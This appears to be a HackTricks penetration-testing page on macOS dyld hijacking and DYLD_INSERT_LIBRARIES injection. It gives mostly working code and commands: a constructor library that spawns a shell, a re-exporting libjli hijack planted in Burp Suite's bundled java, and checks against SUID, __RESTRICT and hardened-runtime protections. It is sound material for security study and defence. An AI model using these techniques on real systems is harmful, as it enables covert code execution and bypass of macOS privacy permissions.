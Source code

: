 # macOS Dyld Hijacking & DYLD\_INSERT\_LIBRARIES

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## DYLD\_INSERT\_LIBRARIES Basic example

**Library to inject** to execute a shell:

```c
// gcc -dynamiclib -o inject.dylib inject.c

#include <syslog.h>
#include <stdio.h>
#include <unistd.h>
__attribute__((constructor))

void myconstructor(int argc, const char **argv)
{
    syslog(LOG_ERR, "[+] dylib injected in %s\n", argv[0]);
    printf("[+] dylib injected in %s\n", argv[0]);
    execv("/bin/bash", 0);
}
```

Binary to attack:

```c
// gcc hello.c -o hello
#include <stdio.h>

int main()
{
    printf("Hello, World!\n");
    return 0;
}
```

Injection:

```bash
DYLD_INSERT_LIBRARIES=inject.dylib ./hello
```

## Dyld Hijacking Example

The targeted vulenrable binary is `/Applications/Burp Suite Professional.app/Contents/Resources/jre.bundle/Contents/Home/bin/java`.

{% tabs %}
{% tab title="LC_RPATH" %}
{% code overflow="wrap" %}
```bash
# Check where are the @rpath locations
otool -l "/Applications/Burp Suite Professional.app/Contents/Resources/jre.bundle/Contents/Home/bin/java" | grep LC_RPATH -A 2
          cmd LC_RPATH
      cmdsize 32
         path @loader_path/. (offset 12)
--
          cmd LC_RPATH
      cmdsize 32
         path @loader_path/../lib (offset 12)
```
{% endcode %}
{% endtab %}

{% tab title="@rpath" %}
{% code overflow="wrap" %}
```bash
# Check librareis loaded using @rapth and the used versions
otool -l "/Applications/Burp Suite Professional.app/Contents/Resources/jre.bundle/Contents/Home/bin/java" | grep "@rpath" -A 3
         name @rpath/libjli.dylib (offset 24)
   time stamp 2 Thu Jan  1 01:00:02 1970
      current version 1.0.0
compatibility version 1.0.0
```
{% endcode %}
{% endtab %}

{% tab title="entitlements" %}
<pre class="language-bash" data-overflow="wrap"><code class="lang-bash">codesign -dv --entitlements :- "/Applications/Burp Suite Professional.app/Contents/Resources/jre.bundle/Contents/Home/bin/java"
<strong>[...]com.apple.security.cs.disable-library-validation[...]
</strong></code></pre>
{% endtab %}
{% endtabs %}

With the previous info we know that it's **not checking the signature of the loaded libraries** and it's **trying to load a library from**:

* `/Applications/Burp Suite Professional.app/Contents/Resources/jre.bundle/Contents/Home/bin/libjli.dylib`
* `/Applications/Burp Suite Professional.app/Contents/Resources/jre.bundle/Contents/Home/bin/libjli.dylib`

However, the first one doesn't exist:

```bash
pwd
/Applications/Burp Suite Professional.app

find ./ -name libjli.dylib
./Contents/Resources/jre.bundle/Contents/Home/lib/libjli.dylib
./Contents/Resources/jre.bundle/Contents/MacOS/libjli.dylib
```

So, it's possible to hijack it! Create a library that **executes some arbitrary code and exports the same functionalities** as the legit library by reexporting it. And remember to compile it with the expected versions:

{% code title="libjli.m" %}
```objectivec
#import <Foundation/Foundation.h>

__attribute__((constructor))
void custom(int argc, const char **argv) {
    NSLog(@"[+] dylib hijacked in %s",argv[0]);
}
```
{% endcode %}

Compile it:

{% code overflow="wrap" %}
```bash
gcc -dynamiclib -current_version 1.0 -compatibility_version 1.0 -framework Foundation libjli.m -Wl,-reexport_library,"/Applications/Burp Suite Professional.app/Contents/Resources/jre.bundle/Contents/Home/lib/libjli.dylib" -o libjli.dylib
# Note the versions and the reexport
```
{% endcode %}

The reexport path created in the library is relative to the loader, lets change it for an absolute path to the library to export:

{% code overflow="wrap" %}
```bash
#Check relative
otool -l libjli.dylib| grep REEXPORT -A 2
         cmd LC_REEXPORT_DYLIB
         cmdsize 48
         name @rpath/libjli.dylib (offset 24)

#Change to absolute to the location of the library
install_name_tool -change @rpath/libjli.dylib "/Applications/Burp Suite Professional.app/Contents/Resources/jre.bundle/Contents/Home/lib/libjli.dylib" libjli.dylib

# Check again
otool -l libjli.dylib| grep REEXPORT -A 2
          cmd LC_REEXPORT_DYLIB
      cmdsize 128
         name /Applications/Burp Suite Professional.app/Contents/Resources/jre.bundle/Contents/Home/lib/libjli.dylib (offset 24)
```
{% endcode %}

Finally just copy it to the **hijacked location**:

{% code overflow="wrap" %}
```bash
cp libjli.dylib "/Applications/Burp Suite Professional.app/Contents/Resources/jre.bundle/Contents/Home/bin/libjli.dylib"
```
{% endcode %}

And **execute** the binary and check the **library was loaded**:

<pre class="language-context"><code class="lang-context">./java
<strong>2023-05-15 15:20:36.677 java[78809:21797902] [+] dylib hijacked in ./java
</strong>Usage: java [options] &#x3C;mainclass> [args...]
           (to execute a class)
</code></pre>

{% hint style="info" %}
A nice writeup about how to abuse this vulnerability to abuse the camera permissions of telegram can be found in [https://danrevah.github.io/2023/05/15/CVE-2023-26818-Bypass-TCC-with-Telegram/](https://danrevah.github.io/2023/05/15/CVE-2023-26818-Bypass-TCC-with-Telegram/)
{% endhint %}

## Bigger Scale

If you are planing on trying to inject libraries in unexpected binaries you could check the event messages to find out when the library is loaded inside a process (in this case remove the printf and the `/bin/bash` execution).

```bash
sudo log stream --style syslog --predicate 'eventMessage CONTAINS[c] "[+] dylib"'
```

## Check restrictions

### SUID & SGID

```bash
# Make it owned by root and suid
sudo chown root hello
sudo chmod +s hello
# Insert the library
DYLD_INSERT_LIBRARIES=inject.dylib ./hello

# Remove suid
sudo chmod -s hello
```

### Section `__RESTRICT` with segment `__restrict`

```bash
gcc -sectcreate __RESTRICT __restrict /dev/null hello.c -o hello-restrict
DYLD_INSERT_LIBRARIES=inject.dylib ./hello-restrict
```

### Hardened runtime

Create a new certificate in the Keychain and use it to sign the binary:

{% code overflow="wrap" %}
```bash
codesign -s <cert-name> --option=runtime ./hello
DYLD_INSERT_LIBRARIES=inject.dylib ./hello

codesign -f -s <cert-name> --option=library ./hello
DYLD_INSERT_LIBRARIES=example.dylib ./hello-signed #Will throw an error because signature of binary and library aren't signed by same cert

codesign -s <cert-name> inject.dylib
DYLD_INSERT_LIBRARIES=example.dylib ./hello-signed #Throw an error because an Apple dev certificate is needed
```
{% endcode %}

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>
